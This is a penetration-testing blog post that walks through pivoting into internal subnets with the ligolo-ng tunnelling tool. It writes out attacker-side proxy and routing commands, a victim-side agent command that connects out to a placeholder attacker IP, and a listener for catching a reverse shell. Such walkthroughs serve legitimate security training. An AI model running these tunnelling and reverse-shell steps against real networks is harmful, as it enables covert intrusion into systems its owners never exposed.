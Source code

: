 ```yaml
---
layout: post
date: 2023-07-07
title: "Pivoting with ligolo"
categories: [pivoting]
tags: [ligolo, pivoting]
---
```


Pivoting is an essential part of penetration testing. Once you gain an initial foothold there may be several subnets that the outside world may not have access to and will give you further access into the domain by leveraging a tool such as ligolo which can be downloaded from [Github](https://github.com/Nicocha30/ligolo-ng). 

In order to leverage this tool you will need to download it via `git clone https://github.com/nicocha30/ligolo-ng.git` .  It also worth noting that ligolo does not use SOCK5, but instead ligolo uses GVISOR and thus is must faster than a SOCKS proxy, mimicing a VPN.

You can then proceed to start, add and start the proxy server via these  commands.

Attacker Machine:
```shell
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
chmod + proxy
./proxy -autocert
```
It is also worth noting that you can change the port it listens on, as by default it will listen on port 11601.

```shell
./proxy -selfcert -laddr 0.0.0.0:443
```


![](/assets/images/ligolo/1.png)

Victim Machine (Windows or Linux):

Upload the respective file. 
```shell
./agent -connect attackerip:port -ignore-cert
```
The -ignore-cert will be required if you use -selfcert.

![](/assets/images/ligolo/2.png)

You must run a few more commands on the Attacker Machine from within the proxy prompt in order to get your tunnel running.
```shell
session (session number)
start
```
Once all of this is done you will be able to run commands from your attacker machine as if you are in the internal network. On this network there is an internal networked connect which I can verify by typing ifconfig.
![](/assets/images/ligolo/3.png)

For this machine you must also run ```
```shell
sudo ip route add 192.168.110.0/24 dev ligolo
```

Now on the Attacker Machine but another terminal I can run pings on the internal network on the victims machine.

![](/assets/images/ligolo/4.png)

You can also gain a revshell back to your client by adding a listener to your host.

This must be done from the attacker machine.
```shell
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:1234
```


